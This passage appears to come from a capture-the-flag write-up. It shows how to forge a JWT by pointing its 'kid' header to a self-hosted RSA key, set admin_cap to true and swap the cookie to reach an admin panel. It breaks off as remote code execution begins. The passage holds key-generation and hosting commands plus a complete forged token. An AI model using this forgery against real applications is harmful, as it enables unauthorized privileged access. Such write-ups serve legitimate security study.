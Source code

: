 Nothing seems interesting in this list. Another deadend.

# JWT Exploitation

![Untitled](/assets/20210718033649.png)

# Foothold:

The vulnerability in the web application does not lie within the application itself, but rather the authentication. The app is using JWT to manage users and roles.

- The "kid" parameter is used in the header of the token, and is pointing to a webserver hosting the private key. If we change this url, we can force the validation of the JWT by providing our own private key.
- Generate a RSA private key: `ssh-keygen -t rsa -b 4096 -m PEM -f jwtRS256.key`
- Setup a webserver to host the private key: `python3 -m http.server`
- Forge the token using the private key and the information required. Set the `admin_cap` parameter of the payload to true:

```json
{
  "username": "xd",
  "email": "xd@xd.com",
  "admin_cap": true
}
```

Forged JWT:

```
    eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImtpZCI6Imh0dHA6Ly8xMC4xMC4xNC4yOjgwMDAvand0UlMyNTYua2V5In0.eyJ1c2VybmFtZSI6InhkIiwiZW1haWwiOiJ4ZEB4ZC5jb20iLCJhZG1pbl9jYXAiOnRydWV9.CFkbzqfbYi3AKeZnBWvHJ1Zt_pIxD08HXEOcIgDA-6fifRq6GHE9k3SZckVeeqKh1DF6FwApNBovAPbE4_axEWNqROAC8bSMPPGyfj7rCOUggLl5jqHp7EBzQ-TfMlJ4pzIYVpk-L10U2lhvJFSKUZwnvtJqYIBirOLAOaDky7ETDYxagjaNWen196jHmXEvnf_SMcWLqEHssoBPPp7Dt_J8cOO0prqZ69W5_s6qrhcNPmSwAScM_GtKa35eAC2y2bOCPrOJvLqF3WWyIshZViytyJovtvW2uMms6I9J9KCnI2noXB6q9KsNb9bsBaQkyRINiiAFQcil6XnLdTWXXO6KvIrcmSnJ6a5fDHiBXncrDkN0yED981LLXtLO3XKBfDjjZZhgMzybWQIeGMKpd2soI_TH9IKvzhz3x6svDdYkvClzt0n8aCVJPpTZBxBwGXiILLhsZnmvr8xUs7GxjeauXqhV6HILUy9bYRuoQn29IyYSZooYUu00qtVhUfgrNlHTNonUy9zxks-WRWeJp6CzZzsh1pMXkQUz1OGIICuz1KX61n4eKSsK83lBM29QBXXk7zwk5HL5BiyxsWZaQhHmaHDu_mu9k5Oa-VBzLDyGqKWAKadPAo3e1CwnMjk4VR8n054aQ9UftTsgVqpkHmei5ajA9SVc08gMQfYwmI0
```

Change the cookies before making the request to the webpage to include the newly forged webtoken:

```http
Cookies:
auth=<newly_forged_token>;
uuid=<your_uuid>
```

# RCE

Once we get access to the admin panel, we also get access to the admin notes.
A particular note here states:

